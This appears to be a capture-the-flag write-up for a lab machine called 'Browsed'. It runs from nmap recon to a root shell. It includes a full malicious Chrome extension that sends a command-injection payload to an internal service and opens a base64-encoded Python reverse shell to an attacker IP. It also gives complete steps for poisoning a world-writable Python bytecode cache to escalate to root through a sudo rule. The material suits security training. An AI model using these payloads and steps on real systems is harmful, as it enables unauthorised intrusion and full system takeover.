



Browsed

Recon
In the beginning, I used nmap with the following parameters. I found ports 22 and 80 open (it appears to be a web application running on nginx with Ubuntu Linux).
[browsed] sudo nmap -Pn -sSVC -p- -T5 --min-rate 2000 -oN nmap browsed.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-04-13 16:32 -03
Warning: 10.129.18.235 giving up on port because retransmission cap hit (2).
Nmap scan report for browsed.htb (10.129.18.235)
Host is up (0.17s latency).
Not shown: 65391 closed tcp ports (reset), 142 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 02:c8:a4:ba:c5:ed:0b:13:ef:b7:e7:d7:ef:a2:9d:92 (ECDSA)
|_ 256 53:ea:be:c7:07:05:9d:aa:9f:44:f8:bf:32:ed:5c:9a (ED25519)
80/tcp open http nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Browsed
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.31 secondsThe web application reveals a company app focused on Chrome Extensions Development. It has an interesting extension upload feature (the developer uses it and the app gives us feedback), and the extension must be inside a zip file.

Exploitation
So basically I think this extension upload feature is the foothold. First, I found this Chrome extension to upload and test the feature: PHPView-for-Chrome. In the output, I found the following message:
[1883:1888:0413/194618.559947:VERBOSE1:network_delegate.cc(37)] NetworkDelegate::NotifyBeforeURLRequest: http://browsedinternals.htb/This indicates the app has another domain: browsedinternals.htb.

This other application is a Gitea instance in version 1.24.5. During navigation, we found a public repo that contains an internal application http://browsedinternals.htb/larry/MarkdownPreview with the following README.md:
This webapp allows us to convert our md files to html. Still in developement, it should only run locally !!!During analysis of the code in the repo, the app.py file defines the route /routines/<rid> and passes the rid parameter directly to routines.sh using subprocess.run(["./routines.sh", rid]). The injection is not in subprocess.run itself (it uses a list, so no shell is invoked). The real root cause is that routines.sh uses the argument unquoted inside a Bash array index like arr[$1]. Bash evaluates the content of arr[...] as an arithmetic expression, and arithmetic context expands $(...) command substitution, so a payload like the following triggers command execution:
GET to http://localhost:5000/routines/arr[$(command)]So we need to find a way to access the internal service. We can try to create an extension that reaches it.
Looking at the documentation Chrome Content Scripts, we can create the following files:
manifest.json: declares the extension's capabilities. It requests<all_urls>host permissions so the content script canfetchcross-origin targets (includinglocalhost), and injectscontent.jsinto every page viamatches: ["<all_urls>"]atdocument_idle.content.js: runs inside the DOM of every matched page with the privileges granted by the manifest. It fires thefetchto the vulnerable internal service directly, bypassing CORS viamode: 'no-cors'.
The exploit extension is a minimal Manifest V3 package with two files:
manifest.json
{
"name": "Exploit",
"version": "1.0",
"manifest_version": 3,
"content_scripts": [
{
"matches": ["<all_urls>"],
"js": ["content.js"],
"run_at": "document_idle"
}
],
"host_permissions": ["<all_urls>"]
}content.js
const ip = "10.10.15.122";
const port = "4444";
const pythonPayload = `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("${ip}",${port}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`;
const b64Payload = btoa(pythonPayload);
const command = `echo ${b64Payload} | base64 -d | python3`;
const exploitUrl = `http://localhost:5000/routines/arr[$( ${command} )]`;
fetch(exploitUrl, { mode: 'no-cors' }).then(() => {
fetch('http://10.10.15.122:8000/exploit-sent', { mode: 'no-cors' });
});Before uploading, we start the listener nc -lvnp 4444 to catch the reverse shell.
To upload, we need to zip the files and send them to the web application:
[exploit_extension] zip -r exploit_extension.zip .
adding: manifest.json (deflated 49%)
adding: content.js (deflated 42%)After uploading the extension, we get the shell:
[browsed] nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.18.235 60772
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(larry) gid=1000(larry) groups=1000(larry)$ cd ~
$ ls -la
total 56
drwxr-x--- 9 larry larry 4096 Jan 6 11:11 .
drwxr-xr-x 4 root root 4096 Jan 6 10:28 ..
lrwxrwxrwx 1 root root 9 Dec 29 09:55 .bash_history -> /dev/null
-rw-r--r-- 1 larry larry 220 Mar 31 2024 .bash_logout
-rw-r--r-- 1 larry larry 3771 Mar 31 2024 .bashrc
drwx------ 4 larry larry 4096 Jan 6 10:28 .cache
drwx------ 3 larry larry 4096 Jan 6 10:28 .config
-rw-rw-r-- 1 larry larry 36 Aug 17 2025 .gitconfig
drwx------ 3 larry larry 4096 Jan 6 10:28 .gnupg
drwxrwxr-x 3 larry larry 4096 Jan 6 10:28 .local
drwxrwxr-x 9 larry larry 4096 Jan 6 10:28 markdownPreview
drwx------ 3 larry larry 4096 Jan 6 10:28 .pki
-rw-r--r-- 1 larry larry 807 Mar 31 2024 .profile
lrwxrwxrwx 1 larry larry 9 Aug 17 2025 .python_history -> /dev/null
drwx------ 2 larry larry 4096 Jan 6 10:28 .ssh
-rw-r----- 1 root larry 33 Apr 13 19:18 user.txtPost Exploitation
After obtaining the shell, running sudo -l shows the following permission:
$ sudo -l
Matching Defaults entries for larry on browsed:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty
User larry may run the following commands on browsed:
(root) NOPASSWD: /opt/extensiontool/extension_tool.pyThe core vulnerability was a weak file permission on the __pycache__ directory within /opt/extensiontool/. This directory was world-writable, allowing any user to add or delete files within it, regardless of who owned the specific files.
$ ls -la /opt/extensiontool/
total 24
drwxr-xr-x 4 root root 4096 Dec 11 07:54 .
drwxr-xr-x 4 root root 4096 Aug 17 2025 ..
-rwxr-xr-x 1 root root ... extension_tool.py
-rw-r--r-- 1 root root ... extension_utils.py
drwxr-xr-x 2 root root 4096 Dec 11 07:54 extensions
drwxrwxrwx 2 root root 4096 Dec 11 07:57 __pycache__With a shell as larry, running sudo -l shows we can execute /opt/extensiontool/extension_tool.py as root without a password. The script itself has no obvious injection point, so the escalation has to come from a module it imports at runtime. Listing the application directory reveals the real weakness: the __pycache__ folder is world-writable (drwxrwxrwx), even though the .pyc files inside it are owned by root. We can't overwrite root-owned files, but because the directory is writable we can freely delete existing entries and drop new ones, and that is enough to poison Python's bytecode cache.
CPython's import machinery works in our favor here. When extension_tool.py runs import extension_utils, Python first checks __pycache__ for a matching extension_utils.cpython-312.pyc. If the file's 16-byte header (magic number, bit field, source timestamp, and source size) matches the corresponding .py, Python skips parsing the source entirely and executes the cached bytecode directly. Ownership is never checked, only the header validity. If we can place a .pyc with a legitimate-looking header but a malicious body under that exact name, the root-privileged script will run our code on import.
The first step is making sure a legitimate .pyc exists so we have a valid header to steal. Running the sudo rule once forces Python to compile extension_utils.py and write a fresh cache file:
sudo /opt/extensiontool/extension_tool.py
[X] Use one of the following extensions : ['Fontify', 'Timer', 'ReplaceImages']The usage error is irrelevant. What matters is that /opt/extensiontool/__pycache__/extension_utils.cpython-312.pyc now exists on disk.
Next, we build the payload in /tmp. A minimal pwn.py elevates privileges and drops an interactive shell:
import os
os.setuid(0)
os.setgid(0)
os.system("/bin/bash")We compile it with the exact Python version used by the target (3.12, to guarantee magic-number compatibility):
larry@browsed:/tmp$ /usr/bin/python3.12 -m compileall pwn.py
larry@browsed:/tmp$ ls -la __pycache__/
total 12
drwxr-xr-x 2 larry larry 4096 Apr 13 21:06 .
drwxrwxrwt 32 root root 4096 Apr 13 21:09 ..
-rw-r--r-- 1 larry larry 303 Apr 13 21:06 pwn.cpython-312.pycThis produces /tmp/__pycache__/pwn.cpython-312.pyc. Its body contains the bytecode we want, but its header identifies pwn.py as the source, which will not match extension_utils.py and would be rejected by the import loader.
To fix that, we splice together a Frankenstein .pyc: the first 16 bytes from the legitimate file (the header describing extension_utils.py) followed by the body of our malicious compiled payload:
head -c 16 /opt/extensiontool/__pycache__/extension_utils.cpython-312.pyc > /tmp/header.bin
tail -c +17 /tmp/__pycache__/pwn.cpython-312.pyc > /tmp/body.bin
cat /tmp/header.bin /tmp/body.bin > /tmp/evil.pycTo Python, this file looks like a valid cache for extension_utils.py, but it actually executes our root-shell bytecode.
We can't overwrite the root-owned legitimate .pyc directly, but the world-writable parent directory lets us delete it and drop our crafted copy in its place under the same filename:
rm /opt/extensiontool/__pycache__/extension_utils.cpython-312.pyc
cp /tmp/evil.pyc /opt/extensiontool/__pycache__/extension_utils.cpython-312.pycThe new file is now owned by larry, but Python does not care about ownership, only about the header matching the source.
Finally, we trigger the sudo rule again:
larry@browsed:/tmp$ sudo /opt/extensiontool/extension_tool.py
root@browsed:/tmp# id
uid=0(root) gid=0(root) groups=0(root)Python starts extension_tool.py as root, reaches import extension_utils, finds our poisoned .pyc in the cache, validates the stolen header against extension_utils.py, trusts the cache, and executes our bytecode body inside the root-privileged process. The setuid(0) / setgid(0) / os.system("/bin/bash") sequence drops us into an interactive root shell, achieving full system compromise via a weak directory permission and Python's implicit trust in its own bytecode cache.